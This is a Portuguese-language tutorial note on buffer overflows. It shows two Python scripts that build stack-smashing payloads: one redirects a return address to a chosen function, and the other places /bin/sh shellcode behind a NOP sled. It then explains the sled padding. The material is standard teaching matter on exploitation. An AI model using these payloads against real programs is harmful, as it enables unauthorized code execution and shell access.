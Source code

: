 
## Buffer Overflow
Vulnerabilidade onde um programa permite a escrita de dados além dos limites de um buffer.
![Buffer exemplo](https://github.com/user-attachments/assets/6a537d2a-27bd-4da4-b8b4-d09e85262347 "Um buffer para exemplo")
Um possível código simples de B.O. poderia ser:
```python
import struct

# Endereço fictício da função secret_function (substitua pelo endereço real)
# Exemplo: suponha que o endereço seja 0x080484b6
secret_function_address = 0x080484b6

# Cria um payload para o exploit
# 64 bytes de preenchimento para atingir o endereço de retorno
payload = b"A" * 64

# Sobrescreve o endereço de retorno com o endereço da secret_function
payload += struct.pack("<I", secret_function_address)

# Exibe o payload que deve ser passado para o programa vulnerável
print(payload)
```

### Shellcode
Se o atacante não achar nem uma função que lhe é útil é possível usar um shellcode.
```python
import struct

# Shellcode para abrir /bin/sh
shellcode = (
    b"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e"
    b"\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"
)

# Substitua este endereço pelo endereço real do buff[64]
buff_address = 0xffffd5f0  # Exemplo fictício

# Montagem do payload
padding = b"\x90" * (64 - len(shellcode))  # NOP sled para garantir que o shellcode seja alcançado
payload = padding + shellcode  # Shellcode que será executado
payload += struct.pack("<I", buff_address)  # Sobrescreve o endereço de retorno

# Exibir o payload
print(payload)
```
A seguinte abaixo faz o seguinte:
1. **len(shellcode)**: Calcula o tamanho do shellcode em bytes.
2. **(64 - len(shellcode))**: Calcula quantos bytes restam no buffer de 64 bytes depois de inserir o shellcode.
3. **b"\x90" * (64 - len(shellcode))**: Cria uma sequência de bytes preenchida com instruções NOP para ocupar o espaço restante no buffer.
```python
padding = b'\x90' * (64 - len(shellcode))
```
Isto é, suponha que o shellcode tenha 20 bytes. O buffer tem 64 bytes. O restante, 44 bytes (64 - 20), será preenchido com NOPs. Isso significa que o exploit poderá redirecionar a execução para qualquer byte dentro desses 44 bytes de NOPs e ainda assim alcançar o shellcode, aumentando a chance de sucesso. Em resumo a linha **padding = b"\x90" * (64 - len(shellcode))** cria um "sled" de NOPs que preenche o buffer vulnerável até o shellcode.
